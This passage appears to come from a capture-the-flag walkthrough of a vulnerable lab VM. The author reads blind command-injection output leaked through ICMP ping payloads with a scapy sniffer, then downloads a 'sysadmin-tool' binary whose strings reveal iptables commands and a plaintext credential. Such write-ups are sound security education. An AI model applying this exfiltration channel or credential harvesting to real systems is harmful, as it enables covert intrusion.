 Mind. Blown.

In case you don't see it, we have extracts of the `id` command in the request/response packets like _98(nginx).grid=4_. While this is not really fun to decipher, and with commands that produce a lot of output even worse, it was in fact **something** to work with!

I fiddled around with this for a little while longer, trying to make the output a little more readable. Eventually I fired up scapy and just printed the data section of the packet. Not much better, but with a little more effort I am sure you can get something very workable out of it.

```python Scapy sniff()
>>> sniff(filter="icmp[icmptype] == 8 and host 192.168.56.104", prn=lambda x: x.load)
ؤT�nginx) guid=498(nginx) guid=498(nginx) guid=498(
ؤT
   ginx) grid=498(nginx) grid=498(nginx) grid=498(n
ؤT�(nginx)
oups=498(nginx)
oups=498(nginx)
oups=498
```

##sysadmin-tool
So with actual output to work with, I can almost say I have shell, however, it's crap. Here I had many options to go for. Do I try and get one of those ping tunnels up to shell with? Or something else.

At one stage I ran `ls` as the command trying to see if there was anything in the web path that I may not have found yet. A file called _sysadmin-tool_ was revealed. I browsed to the file which pushed it as a download for me, and saved it locally. I then ran the bin through `strings`:

```bash sysadmin-tool strings
root@kali:~# strings sysadmin-tool 
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
chroot
strncmp
puts
setreuid
mkdir
rmdir
chdir
system
__libc_start_main
GLIBC_2.0
PTRh 
[^_]
Usage: sysadmin-tool --activate-service
--activate-service
breakout
/bin/sed -i 's/^#//' /etc/sysconfig/iptables
/sbin/iptables-restore < /etc/sysconfig/iptables
Service started...
Use avida:dollars to access.
/nginx/usr/share/nginx/html/breakout
```
